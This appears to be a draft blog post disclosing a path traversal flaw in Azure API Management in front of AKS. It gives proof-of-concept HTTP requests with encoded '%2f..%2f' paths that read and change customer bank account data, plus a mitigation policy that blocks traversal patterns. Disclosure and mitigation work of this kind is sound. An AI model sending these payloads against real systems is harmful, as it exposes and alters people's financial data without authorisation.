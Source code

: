 ```yaml
---
layout: post
title: 
subtitle: 
tags: [Azure]
comments: true
published: false
share-img: https://cdn.svenmalvik.com/images/
image: https://cdn.svenmalvik.com/images/
featured-image: https://cdn.svenmalvik.com/images/
---
```


APIM APIs that uses path parameters can be abused to reach any service exposed on the AKS cluster. Encoded path traversal patterns (e.g. %2f..%2f) can be used to traverse outside of the intended APIM back-end service.

The vulnerability is verified to exist in production.

Impact

Anyone can access all services exposed in the AKS cluster. Many AKS services does not enforce authentication, and this can be exploited to get sensitive information on any user, make changes to user profiles and more. 

Mitigation

Short-term fixes includes enforcing WAF in the App Gateway and/or ensure authentication in APIM policies.

Proof-of-Concept

The following request fetches the bank account of the user with ID 123456. The request can be used as a basis to perform any GET-request to the cluster.

```bash
GET /petstore/animals/123%2f..%2f..%2fvpetstore-payments%2fv1%2fgetCustomerAccount%2fdetails  HTTP/1.1
Host: myhost.com
Connection: close
X-Customer-id: 10003506
X-App-Type: CSR
Ocp-Apim-Subscription-Key: ...
```

The following request changes the recipient bank account of a user. Can be used as a basis to perform any POST-request to the cluster.

```te
POST /petstore/animals/123%2f..%2f..%2fvpetstore-payments%2fv1%2fgetCustomerAccount%2fdetails HTTP/1.1
Host: myhost.com
Connection: close
X-Customer-id: 12121212
X-App-Type: CSR
Ocp-Apim-Subscription-Key: ...
Content-Length: 35
Content-Type: application/json;charset=UTF-8

{"customerAccount":"123456"}
```

```xml
<when condition='@(context.Request.OriginalUrl.Path.Contains("..") || context.Request.OriginalUrl.Path.Contains("%2e%2e"))'>
	<return-response>
		<set-status code="400" reason="Bad Request" />
		<set-header name="Content-Type" exists-action="override">
			<value>application/json;charset=UTF-8</value>
		</set-header>
		<set-body>{"message": "Access denied."}</set-body>
	</return-response>
</when>
```